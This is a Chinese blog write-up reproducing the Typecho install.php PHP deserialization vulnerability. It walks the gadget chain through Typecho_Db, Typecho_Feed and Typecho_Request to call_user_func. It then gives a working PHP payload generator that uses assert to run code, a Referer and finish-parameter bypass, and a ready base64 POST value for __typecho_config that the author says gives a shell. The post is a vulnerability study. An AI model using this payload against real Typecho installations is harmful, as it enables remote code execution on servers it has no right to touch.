

# 前言
之前一直就听过这个漏洞，影响还是蛮大的。但是之前一直没有时间复现。  
最近想着没有搞过这个类型的漏洞，恰好这里有一个活生生的案例，就把php反序列化总结了下，分析了下这个漏洞。  
看完分析文章，我只想说，流批。叫我就算告诉我这有漏洞我也找不到触发链。orz  
  

# 漏洞分析
漏洞发生在install.php中。直接搜索`unserialize`关键字就能找到，大约283行的样子  
```php
$config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
```
跟进Typecho_Cookie中的get方法
```php
public static function get($key, $default = NULL)
{
	$key = self::$_prefix . $key;
	$value = isset($_COOKIE[$key]) ? $_COOKIE[$key] : (isset($_POST[$key]) ? $_POST[$key] : $default);
	return is_array($value) ? $default : $value;
}
```
可以通过cookie或者post的方式传入，这样传入unserialize的变量就是可控的  
  
接下来分析下要进入这里的逻辑流程  
只要绕过一开始的这两个代码逻辑即可
```php
//判断是否已经安装
if (!isset($_GET['finish']) && file_exists(__TYPECHO_ROOT_DIR__ . '/config.inc.php') && empty($_SESSION['typecho'])) {
	exit;
}

// 挡掉可能的跨站请求
if (!empty($_GET) || !empty($_POST)) {
	if (empty($_SERVER['HTTP_REFERER'])) {
		exit;
	}

	$parts = parse_url($_SERVER['HTTP_REFERER']);
	if (!empty($parts['port']) && $parts['port'] != 80 && !Typecho_Common::isAppEngine()) {
		$parts['host'] = "{$parts['host']}:{$parts['port']}";
	}

	if (empty($parts['host']) || $_SERVER['HTTP_HOST'] != $parts['host']) {
		exit;
	}
}
```
修改下http头的参数，以及get参数，即可满足要求  
  
然继续分析反序列化的利用  
在反序列化下面就有这样一行代码
```php
$installDb = new Typecho_Db($config['adapter'], $config['prefix']);
```
看到这里调用了$config来实例化一个db类  
在Typecho_Db中的construct类就可以看到
```php
	public function __construct($adapterName, $prefix = 'typecho_')
	{
		/** 获取适配器名称 */
		$this->_adapterName = $adapterName;

		/** 数据库适配器 */
		$adapterName = 'Typecho_Db_Adapter_' . $adapterName;

		if (!call_user_func(array($adapterName, 'isAvailable'))) {
			throw new Typecho_Db_Exception("Adapter {$adapterName} is not available");
		}

		$this->_prefix = $prefix;

		/** 初始化内部变量 */
		$this->_pool = array();
		$this->_connectedPool = array();
		$this->_config = array();

		//实例化适配器对象
		$this->_adapter = new $adapterName();
	}
```
里面将传入的变量与字符串相连接，会触发默认的`__toString`方法
```php
 $adapterName = 'Typecho_Db_Adapter_' . $adapterName;
```
  
这里找到`var\Typecho\Feed.php`中的Feed类定义了`__toString`方法  
由于代码段有点长，就放上最主要的部分
```php
foreach ($this->_items as $item) {
				$content .= '<item>' . self::EOL;
				$content .= '<title>' . htmlspecialchars($item['title']) . '</title>' . self::EOL;
				$content .= '<link>' . $item['link'] . '</link>' . self::EOL;
				$content .= '<guid>' . $item['link'] . '</guid>' . self::EOL;
				$content .= '<pubDate>' . $this->dateFormat($item['date']) . '</pubDate>' . self::EOL;
				$content .= '<dc:creator>' . htmlspecialchars($item['author']->screenName) . '</dc:creator>' . self::EOL;

```
可以看到这里`$item['author']->screenName`,对循环出来的变量获取`screenName`属性，从而会触发默认的`__get`方法  
这里的循环变量`$this->_items`恰好也是反序列化能够控制的类中的变量  
  
然后找到一处`var\Typecho\Request.php`类中的`__get`方法
```php
public function __get($key)
{
	return $this->get($key);
}
```
继续跟进
```php
public function get($key, $default = NULL)
{
	switch (true) {
		case isset($this->_params[$key]):
			$value = $this->_params[$key];
			break;
		case isset(self::$_httpParams[$key]):
			$value = self::$_httpParams[$key];
			break;
		default:
			$value = $default;
			break;
	}

	$value = !is_array($value) && strlen($value) > 0 ? $value : $default;
	return $this->_applyFilter($value);
}
```
前面都没什么问题，主要是最后一句
```php
return $this->_applyFilter($value);
```
进行看一下这个函数
```php
private function _applyFilter($value)
{
	if ($this->_filter) {
		foreach ($this->_filter as $filter) {
			$value = is_array($value) ? array_map($filter, $value) :
			call_user_func($filter, $value);
		}

		$this->_filter = array();
	}

	return $value;
}
```
执行代码的地方来了`call_user_func`
> call_user_func — 把第一个参数作为回调函数调用
`$this->_filter`是反序列化时可以控制的  
传入的$value参数在之前也是通过`$value = $this->_params[$key];`获取  
  
从而一个复杂的反序列化攻击链就完成了

# 漏洞攻击
payload
```php
<?php 

class Typecho_Feed{
	const RSS1 = 'RSS 1.0';
	const RSS2 = 'RSS 2.0';
	const ATOM1 = 'ATOM 1.0';
	const DATE_RFC822 = 'r';
	const DATE_W3CDTF = 'c';
	const EOL = "\n";

	private $_items = array();
	private $_type;
	
	function __construct(){
		$this->_type = self::RSS2 ;
		$this->_items[0] = array(
			'title' => '1',
			'link' => '1',
			'date' => 1508895132,
			'category' => array(new Typecho_Request()),
			'author' => new Typecho_Request()
		);
	}


}

class Typecho_Request{
	private $_filter = array();
	private $_params = array();

	function __construct(){
		$this->_params['screenName'] = 'phpinfo();';
		$this->_filter[0] = 'assert';
	}
}


$exp = array(
	'adapter' => new Typecho_Feed(),
	'prefix' => 'typecho_',
);

print_r(base64_encode(serialize($exp)));
```
关于这个payload有两点要说下  
一就是`'catetory'`这个数组中，只要任意传入一个类即可，否则会报database error，具体原因暂不知  
二就是我一开始想用eval的，然后就会报没有eval函数的错误，可能是把eval函数给禁用了  
  
然补上之前的进入条件
```
reference = http://localhost/typecho/
?finish=a
```
用post传入
```
__typecho_config=YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6NTp7czo1OiJ0aXRsZSI7czoxOiIxIjtzOjQ6ImxpbmsiO3M6MToiMSI7czo0OiJkYXRlIjtpOjE1MDg4OTUxMzI7czo4OiJjYXRlZ29yeSI7YToxOntpOjA7TzoxNToiVHlwZWNob19SZXF1ZXN0IjoyOntzOjI0OiIAVHlwZWNob19SZXF1ZXN0AF9maWx0ZXIiO2E6MTp7aTowO3M6NjoiYXNzZXJ0Ijt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6MTA6InBocGluZm8oKTsiO319fXM6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO31zOjI0OiIAVHlwZWNob19SZXF1ZXN0AF9wYXJhbXMiO2E6MTp7czoxMDoic2NyZWVuTmFtZSI7czoxMDoicGhwaW5mbygpOyI7fX19fXM6MTk6IgBUeXBlY2hvX0ZlZWQAX3R5cGUiO3M6NzoiUlNTIDIuMCI7fXM6NjoicHJlZml4IjtzOjg6InR5cGVjaG9fIjt9
```
即可getshell



# Reference Link
https://www.hackersb.cn/shenji/239.html


